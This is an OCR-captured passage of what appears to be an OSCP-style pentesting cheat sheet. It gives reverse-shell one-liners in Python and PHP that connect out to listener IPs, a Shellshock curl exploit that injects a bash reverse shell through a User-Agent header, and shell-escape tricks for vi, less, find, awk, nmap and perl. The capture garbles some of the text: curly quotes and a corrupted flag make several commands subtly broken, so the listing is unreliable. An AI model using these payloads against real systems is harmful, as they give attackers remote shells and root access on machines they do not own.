 ```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP
<?php shell_exec(‘bash –I >& /dev/tcp/10.11.0.165/1234 0>&1’); ?>
The following assumes TCP connection uses file descriptor 3.  If it doesn’t work, try 4, 5, 6…
php -r '$sock=fsockopen("10.0.0.1",1234); exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Shellshock
```bash
x='() { :;}; echo VULNERABLE' bash -c : VULNERABLE
VULNERABLE # prints VULNERABLE if vulnerable
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; 
          bash -i >& /dev/tcp/10.11.0.165/443 0>&1; echo zzzz;’”   
          http://10.11.1.71/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}’  
Test for shellshock 
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip
```

![image](/assets/images/oscp/shellshock.png "shellshock")

#### Shell escape sequences
```bash
:!bash # vi, vim
:set shell=/bin/bash:shell # vi, vim
!bash # man, more, less
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}’ ;  # find
awk 'BEGIN {system("/bin/bash")}’ # awk
--interactive # nmap
echo "os.execute('/bin/sh')" > exploit.nse sudo nmap --script=exploit.nse # nmap 
perl -e 'exec "/bin/bash";’ # Perl
```
